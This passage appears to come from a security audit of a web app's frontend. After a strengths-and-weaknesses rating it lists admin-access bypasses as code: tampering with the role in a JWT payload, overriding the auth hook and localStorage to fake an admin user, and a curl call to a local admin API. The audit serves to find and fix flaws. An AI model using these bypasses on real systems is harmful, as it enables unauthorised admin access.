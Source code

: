 ### Frontend Security (6/10)

#### ✅ **Strengths**:
- In-memory token storage (not localStorage)
- Automatic token refresh
- Role-based route protection
- Secure cookie handling

#### ❌ **Weaknesses**:
- Client-side role validation
- No CSRF token implementation
- XSS vulnerabilities possible
- No input sanitization on client

---

## 🛠️ Bypass Methods & Exploitation

### 1. **Admin Access Bypass**

#### Method A: Token Manipulation
```javascript
// Step 1: Get any valid token
const token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...';

// Step 2: Decode and modify JWT payload
const payload = JSON.parse(atob(token.split('.')[1]));
payload.role = 'admin'; // Add admin role

// Step 3: Re-sign token (requires secret key)
// Or use existing token and bypass frontend checks
```

#### Method B: Frontend Override
```javascript
// Override AuthContext
const originalUseAuth = window.useAuth;
window.useAuth = () => ({
  user: { role: 'admin', id: 'fake' },
  isAuthenticated: true,
  isLoading: false
});

// Or modify localStorage
localStorage.setItem('user', JSON.stringify({
  role: 'admin',
  email: 'admin@fake.com'
}));
```

#### Method C: Direct API Access
```bash
# Bypass frontend entirely
curl -H "Authorization: Bearer YOUR_TOKEN" \
     -H "Content-Type: application/json" \
     http://localhost:3001/api/admin/users
```
